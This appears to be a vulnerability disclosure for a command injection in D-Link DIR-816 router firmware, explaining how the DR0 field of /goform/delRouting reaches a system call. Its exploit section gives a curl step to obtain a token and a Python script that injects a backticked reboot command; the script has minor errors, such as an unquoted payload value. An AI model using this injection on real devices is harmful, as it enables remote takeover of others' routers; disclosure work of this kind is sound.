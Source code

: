 ## DIR-816 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

### Affected version

D-Link DIR-816  A2V1.1.0B05 was found to contain a command injection in `/goform/delRouting` of the component Web Interface, which allows remote attackers to execute arbitrary commands via shell.

![image-20250310195139787](./img/1.png)

### Vulnerability details

Vulnerability occurs in `/goform/delRouting`. Attackers can control `Var` by setting the `DR0`. The program then splits `Var` into three parts, `v11`, `v12`, and `v13`, and passes them to function `sub_428FF0`.

![image-20250310195641097](./img/3.png)

In the function `sub_428FF0`, the three parameters are concatenated into the command `route del`, and finally called by `doSystem`.

![image-20250310200032609](./img/4.png)

Anyway, system command was called, and its parameter `v9` was passed by `Var`, which controlled by attackers.

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `DR0`.

### EXP

First, attackers need to get the token ID.

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then, run exp.

```
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/delRouting'

payload = b'a' * 10000

data = {
    'tokenid': tokenid,
    'DR0': a`reboot` b c
}

print('payload sending...')
r = requests.post(url, data)
print('end')
```
